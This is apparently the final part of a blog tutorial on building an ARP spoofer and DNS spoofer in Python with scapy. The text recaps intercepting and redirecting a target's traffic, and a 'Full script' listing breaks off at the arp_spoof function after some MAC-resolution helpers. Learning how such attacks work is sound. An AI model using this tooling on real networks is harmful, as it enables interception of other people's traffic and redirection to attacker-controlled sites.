Jubilation!

## Next up

So far we’ve built an ARP spoofer to spy on network traffic. We then expanded upon the ARP spoofer to actively manipulate network traffic to redirect our target from a domain they think they are going to a website we control.

It would probably be best to split the ARP spoofer and the DNS spoofer into their own scripts, or expand the command line options to be able to run them independently.

In the next post, we are going to build a transparent HTTP proxy which will flip every image upside down! This post may take a few weeks to come out. Until then, happy hacking!

## Full script

```python{numberLines: true}
import time
from scapy.all import *
from typing import List
import os
import sys
import threading
import argparse
from netfilterqueue import NetfilterQueue


def get_attacker_mac(interface):
    try:
        return get_if_hwaddr(interface)
    except:
        return None


def get_mac_from_ip(ip_address: str):
    # dst="ff:ff:ff:ff:ff:ff" broadcasts the request to the whole network
    ans = srp1(
        Ether(dst="ff:ff:ff:ff:ff:ff")
        / ARP(pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff"),
        timeout=2,
        verbose=0,
    )
    if ans:
        return ans.hwsrc
    else:
        return None


def resolve_ip(name: str, ip_address: str):
    print(f"Resolving MAC address for {name} {ip_address}")

    # Resolve the target's MAC address
    mac = get_mac_from_ip(ip_address)

    if mac == None:
        print(f"Unable to resolve IP address. Exiting!")
        sys.exit(0)

    print(f"Resolved to {mac}")
    return mac


def arp_spoof(
    interface: str, target_ip: str, target_mac: str, gateway_ip: str, gateway_mac: str
```